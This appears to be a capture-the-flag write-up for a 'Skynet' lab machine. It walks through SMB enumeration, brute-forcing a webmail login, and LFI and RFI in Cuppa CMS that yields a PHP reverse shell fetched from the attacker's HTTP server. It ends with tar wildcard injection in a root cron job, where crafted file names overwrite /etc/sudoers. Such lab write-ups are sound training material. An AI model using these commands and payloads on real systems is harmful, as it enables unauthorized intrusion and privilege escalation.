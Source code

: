 # what I learn
- RFI
- abuse tar wildscard (tar -cf something *)
# enumeration
- 22/tcp  open  ssh
- 80/tcp  open  http
  - /admin (Status: 403)
  - /ai (Status: 403)
  - /config (Status: 403)
  - /css (Status: 403)
  - /index.html (Status: 200)
  - /js (Status: 403)
  - /server-status (Status: 403)
  - /squirrelmail (Status: 200)
    - SquirrelMail version 1.4.23
    - a login page to 
- 110/tcp open  pop3
- 139/tcp open  netbios-ssn
- 143/tcp open  imap
- 445/tcp open  microsoft-ds
```
|   \\10.10.117.118\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.117.118\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
```
let check smb share
```console
kali@kali:~/THM/skynet$ smbclient \\\\$IP\\anonymous
```
get log1.txt and attention.txt
- log1.txt looks like a wordlist
- attention.txt : A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson


# foot hold
let try bruteforce smb share for user `milesdyson` using hydra and `log1.txt` as wordlist:
```console
hydra -f -l milesdyson -P log1.txt -t 64 $IP smb
```
nope no luck... how about `/squirrelmail`. We will use burpsuit to bruteforce it. Capture the request and pass it to Intruder. now add `log1.txt` as the payload and grep match `password incorrect`

it will take a while.. now use milesdyson credential to login to the email server. you will find a mail with subject **Samba Password reset**. here is what contain in the email


```
We have changed your smb password after system malfunction.
Password: <password>
```

now login to Mile smb share. get *important.txt* which tell us about the hidden directory. visit  `http://<ip>/45kra24zxs28v3yd/`. the page dont say much. let `gobuster` and try to find out more


`/45kra24zxs28v3yd/administrator/` is a Cuppa CMS. let search for an exploit.. and I found [this](https://www.exploit-db.com/exploits/25971).


So I try this `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` BAM! LFI works. let use LFI to get user.flag

If you read the exploit, we can also use Remote file inclusion (RFI). Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. In this case we will point/refer to our `php-reverse-shell.php` which is up on our python http server (on kali). 

before executing RFI attack, run netcat and listen for reverse shell. Now visit `alerts/alertConfigField.php?urlConfig=http://<ip>:8000/php-reverse-shell.php`. You should get a reverse shell on netcat directly. now get user flag

# root
Time to root the server. I dont like php shell that much. so I spawn another python shell instead. from python shell I spawn a ptty shell by executing:
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```
after poking around. I found out that there is a cron job executing `home/milesdyson/backsups.backup.sh` by root user. I planed to just modify the scrip and spawn a reverse shell but we dont have a premission to do so.


Not that in the script, it use `tar *` or what so call wildcars. I have seen some vulnerability which you can abuse wildcards to prive esc (corjob wildcards.). I assume that it should be work with tar too. After some digging I found [DefenseCode_Unix_WildCards_Gone_Wild.txt](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt). pls read section.`===[ 4.3 Tar arbitrary command execution` carefuly so you understand what is going on. More over I found [this](https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) which prove that its work.


as we know, the `backup.sh` will back up everything in `/var/www/html`. To exploit it we need to move to `/var/www/html`
```console
www-data@skynet:~/html$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
www-data@skynet:~/html$ echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
<o "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"               
www-data@skynet:~/html$ echo "/var/www/html"  > --checkpoint=1
echo "/var/www/html"  > --checkpoint=1
```
the first command we create a `privesc.sh` which will be execute by root (cron job). the script will `echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers` which will give `www-data` a root privilege and aqurie no password to run sudo.

the 2nd and 3rd command you already know by reading the *DefenseCode_Unix_WildCards_Gone_Wild.txt*. Now wait for cron job (1 min). 
```console
www-data@skynet:~/html$ sudo -l
sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```
BOOM! its works. now get root flag `www-data@skynet:~/html$ sudo cat /root/root.txt`
